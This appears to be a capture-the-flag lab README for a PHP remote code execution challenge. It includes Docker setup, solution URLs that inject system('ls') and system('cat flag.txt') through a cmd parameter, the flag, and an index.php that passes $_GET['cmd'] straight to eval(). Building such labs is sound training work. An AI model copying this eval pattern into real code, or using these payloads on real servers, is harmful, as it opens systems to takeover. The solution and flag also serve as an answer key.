 # Challenge 5: ThinkAboutIt

## How to Start
```bash
docker compose pull
docker compose up -d
```

---

## Description
The purpose of this challenge is to demonstrate how **unsanitized commands from the URL** can allow an attacker to execute commands on the server.  
In this scenario, the user can execute system commands directly via a crafted URL.

---

## Solution
1. Access the browser and list the file system:
   ```
   http://localhost:8044/index.php?cmd=system('ls');
   ```
2. View the contents of the flag file:
   ```
   http://localhost:8044/index.php?cmd=system('cat flag.txt');
   ```

**Flag:**
```
FLAG{rce-php}
```

---

## How to Recreate

### 1. Create Folder Structure
Create a folder containing:
- `Dockerfile`
- `index.php`
- `flag.txt`

### 2. Dockerfile
```dockerfile
FROM php:7.4-apache

# Copy vulnerable PHP file and flag
COPY index.php /var/www/html/index.php
COPY flag.txt /var/www/html/flag.txt

# Enable Apache mod_rewrite just in case
RUN a2enmod rewrite
```

### 3. index.php
```php
<?php
// ⚠️ RCE vulnerability via eval()
if (isset($_GET['cmd'])) {
    eval($_GET['cmd']);
} else {
    echo "Try accessing ?cmd=... to test input.";
}
?>
```

### 4. flag.txt
```
FLAG{rce-php}
```

### 5. Build and Run
```bash
cd {rce-vuln directory}
docker build -t vuln-rce .
docker run -d -p 8044:80 vuln-rce
```

---

## Final Notes
This challenge highlights the **critical danger of Remote Code Execution (RCE)** vulnerabilities and the necessity of sanitizing and validating all user input.

